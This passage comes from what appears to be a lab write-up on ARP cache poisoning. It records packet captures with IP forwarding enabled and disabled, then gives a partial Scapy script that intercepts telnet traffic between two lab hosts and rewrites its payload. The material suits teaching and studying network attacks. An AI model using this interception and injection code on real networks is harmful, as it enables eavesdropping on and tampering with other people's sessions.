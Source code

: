 ***arp cache for `host B`***

![arp-poison-hostB](https://github.com/iukadike/blog/assets/58455326/24a8c5a5-710b-4d9f-94ce-3c25cc0de489)

After performing the attack and ensuring that it is successful, the following are observed:
- when IP forwarding is disabled on `host C` (`sysctl net.ipv4.ip_forward=0`) and `host A` pings `host B`, `host A` does not receive any response to the ping request. When the traffic is observed in Wireshark, it is noticed that there is indeed a ping request that originates from `host A` but no accompanying ping reply.
- when IP forwarding is enabled on `host C` (`sysctl net.ipv4.ip_forward=1`) and `host A` pings `host B`, `host A` receives a response to the ping request. The reply comes from `host C` and is marked `redirect` with the next hop being `host B`. When the traffic is observed in Wireshark, it is noticed that there is indeed a ping request that originates from `host A` and an accompanying ping reply from `host B`. There is also an `ICMP redirect` from `host C`. However, looking closely at the captured traffic, there are two requests, two replies, and two redirects:
  - the first request has `host A`'s MAC address as the source address in the Ethernet header and `host C`'s MAC address as the destination address in the Ethernet header
  - the second request has `host C`'s MAC address as the source address in the Ethernet header and `host B`'s MAC address as the destination address in the Ethernet header
  - the first reply has `host B`'s MAC address as the source address in the Ethernet header and `host C`'s MAC address as the destination address in the Ethernet header
  - the second reply has `host C`'s MAC address as the source address in the Ethernet header and `host A`'s MAC address as the destination address in the Ethernet header
  - the first redirect has `host C`'s MAC address as the source address in the Ethernet header and `host B`'s MAC address as the destination address in the Ethernet header
  - the second redirect has `host C`'s MAC address as the source address in the Ethernet header and `host A`'s MAC address as the destination address in the Ethernet header.

The next step involves setting up a telnet connection between `host A` and `host B`, intercepting the traffic on `host C` and spoofing it. To successfully perform the MITM attack, you have to turn off IP routing in `host C`. This means you are fully responsible for the traffic you pass between `host A` and `host C`.

```python
#!/usr/bin/env python3
from scapy.all import *

iface_ = 'eth0'
hostA = '10.9.0.5'  #IP address for host A
hostB = '10.9.0.6'  #IP address for host A
port = '23'

def main():
    #########################################################################
    # Here we do not want to capture any traffic that our program generates #
    #########################################################################
    filter_ = f'tcp port {port} && (not ether src 02:42:0a:09:00:69)'
    sniff(iface = iface_, filter = filter_, prn = spoof_pkt)
    
def spoof_pkt(pkt):
    if pkt[IP].src == hostA and pkt[IP].dst == hostB:
        # save a copy of the captured packet by first type casting it as binary data
        # then initialize it as an IP packet
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)              # force recalculation of IP checksum
        del(newpkt[TCP].payload)        # delete existing payload
        del(newpkt[TCP].chksum)         # force recalculation of TCP checksum
        
        # Check if payload exists and spoof
        if pkt[TCP].payload:
            data = (pkt[TCP].payload.load).decode()     # decodes the payload so we can work on it
            if (data == '\r\x00') or (data == '\r\n'):
                send(newpkt / Raw(load = data), verbose=0)
            else:
                newdata = 'Z'                           # replaces the payload with 'Z'
```